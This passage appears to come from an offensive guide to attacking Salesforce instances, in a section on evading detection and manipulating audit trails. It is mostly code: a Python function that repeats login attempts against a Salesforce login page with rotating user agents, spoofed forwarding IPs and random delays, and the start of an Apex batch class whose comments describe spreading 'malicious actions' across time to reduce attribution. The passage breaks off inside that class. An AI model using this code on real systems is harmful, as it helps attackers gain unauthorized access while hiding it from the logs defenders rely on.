 **Impact**: Expanded unauthorized access, multi-system compromise, network lateral movement.

---

## Detection Evasion

### 1. Audit Trail Manipulation

**Objective**: Techniques for avoiding detection in security logs and audit trails.

**Login History Evasion**:
```python
def evasive_login_patterns(username, password):
    """Use varied login patterns to avoid detection"""
    import random
    import time
    
    # Vary user agents
    user_agents = [
        'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36',
        'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36',
        'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36'
    ]
    
    # Vary source IPs (if possible)
    proxy_ips = ['192.168.1.10', '10.0.0.5', '172.16.0.20']
    
    for i in range(5):
        headers = {
            'User-Agent': random.choice(user_agents),
            'X-Forwarded-For': random.choice(proxy_ips)
        }
        
        # Perform login with variation
        login_data = {'username': username, 'pw': password}
        response = requests.post(
            'https://instance.salesforce.com/login.jsp',
            data=login_data,
            headers=headers
        )
        
        # Random delay between attempts
        time.sleep(random.uniform(30, 300))  # 30 seconds to 5 minutes
```

**Setup Audit Trail Evasion**:
```apex
public class AuditEvasion {
    public static void performStealthyActions() {
        // Use anonymous blocks to reduce attribution
        Database.executeBatch(new StealthyBatch(), 1);
    }
    
    // Batch job to distribute actions across time
    public class StealthyBatch implements Database.Batchable<SObject> {
        public Database.QueryLocator start(Database.BatchableContext bc) {
            return Database.getQueryLocator('SELECT Id FROM Account LIMIT 1');
        }
        
        public void execute(Database.BatchableContext bc, List<Account> records) {
            // Perform malicious actions in small batches
            List<User> users = [SELECT Id, IsActive FROM User WHERE Profile.Name != 'System Administrator' LIMIT 5];
            
            for (User u : users) {
```